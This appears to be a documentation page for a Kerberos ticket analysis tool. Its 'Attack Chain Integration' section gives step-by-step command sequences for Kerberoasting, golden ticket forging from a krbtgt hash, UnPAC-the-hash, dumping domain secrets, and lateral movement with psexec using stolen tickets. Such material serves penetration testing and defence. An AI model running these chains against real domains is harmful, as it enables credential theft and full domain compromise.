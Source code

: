 ## Attack Chain Integration

### Kerberoasting Analysis
```bash
# Step 1: Get service tickets with GetUserSPNs.py
python3 GetUserSPNs.py domain.local/user:password -request -outputfile spns.out

# Step 2: Convert tickets to ccache format if needed
python3 ticketConverter.py spns.out service.ccache

# Step 3: Analyze the ticket and extract Kerberoast hash
python3 describeTicket.py service.ccache -u serviceaccount -d domain.local
```

### Golden/Silver Ticket Analysis
```bash
# Step 1: Create golden ticket with ticketer.py
python3 ticketer.py -nthash krbtgthash -domain-sid S-1-5-21-xxx -domain domain.local administrator

# Step 2: Convert and analyze the created ticket
python3 describeTicket.py administrator.ccache -debug
```

### UnPAC-the-Hash Attack Chain
```bash
# Step 1: Obtain AS-REP with getTGT.py
python3 getTGT.py domain.local/user:password

# Step 2: Extract credentials from PAC
python3 describeTicket.py user.ccache --asrep-key [AS-reply-key]

# Step 3: Use extracted hashes for further attacks
python3 secretsdump.py domain.local/user@dc.domain.local -hashes :extracted_nt_hash
```

### Ticket Analysis in Post-Exploitation
```bash
# Step 1: Extract tickets from compromised system
# (Using mimikatz or other tools to dump tickets)

# Step 2: Convert tickets to ccache format
python3 ticketConverter.py tickets.kirbi tickets.ccache

# Step 3: Analyze ticket contents and validity
python3 describeTicket.py tickets.ccache -debug

# Step 4: Use valid tickets for lateral movement
export KRB5CCNAME=tickets.ccache
python3 psexec.py -k -no-pass domain.local/user@target.domain.local
```
